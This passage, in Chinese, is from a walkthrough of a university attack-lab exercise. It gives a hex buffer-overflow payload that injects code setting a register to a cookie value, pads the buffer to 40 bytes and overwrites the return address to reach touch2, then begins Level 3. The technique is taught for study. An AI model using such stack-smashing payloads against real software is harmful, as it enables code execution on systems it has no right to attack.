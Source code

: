 我们可以将以上十六进制数按顺序拼接起来。**注意：**要将字符串填充40个，才能覆盖原始原始的返回地址。

```text
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

**注意：**因为这里是64位程序，所以需要用8字节来表示地址。

然后再将其转化为对应的字符串`./hex2raw < CI-L2.txt > CI-L2-raw.txt`。

![img](pics/v2-788b313fbed4acfcce19c9d11ee75a5b_720w.jpg)

### Level 3

该题目标是将返回函数重定位到函数`touch3`，而该函数需要传递一个字符串参数

![img](pics/v2-09bcf26d6348a31e3191e658aff54143_720w.jpg)

要求我们传递进去的字符串是cookie，即`0x59b997fa`字符串形式，并且缺少`0x`，即字符串内容为`59b997fa`。

![img](pics/v2-7fe431b58e3bdbc343039de085993b43_720w.jpg)
